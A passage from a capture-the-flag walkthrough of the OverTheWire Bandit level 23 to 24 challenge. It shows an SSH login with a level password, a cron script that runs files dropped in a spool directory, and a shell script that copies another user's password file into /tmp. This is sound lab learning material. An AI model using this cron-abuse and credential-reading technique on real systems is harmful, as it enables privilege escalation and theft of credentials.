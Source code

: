 Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
---

Let's get started:
`ssh` into the level23 box:
`ssh bandit23@bandit.labs.overthewire.org -p 2220` using the password
`jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n`.

Navigate back to the `cron.d` directory and look inside:
```console
bandit23@bandit://etc/cron.d$ ls
cronjob_bandit22  cronjob_bandit23  cronjob_bandit24  popularity-contest
```

Looking inside this level's cronjob we see an `echo` saying that `cronjob_bandit24.sh` executes and then deletes all scripts in `/var/spool/$myname`
```console
bandit23@bandit://etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit://etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
    echo "Handling $i"
    timeout -s 9 60 ./$i
    rm -f ./$i
    fi
done
```

Let's make our shell script and try to leverage the fact that all scripts in `/var/spool/$myname` are run:

Make our temp directory to store the shell script
`mkdir /tmp/ap1212`
`cd /tmp/ap1212`
`touch opensesame.sh`
`nano opensesame.sh`

Let's add the following to `opensesame.sh`:
```
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/ap1212/pass.txt
```

which is the same thing that we did a few levels ago by writing a password to another file so that we could view it.
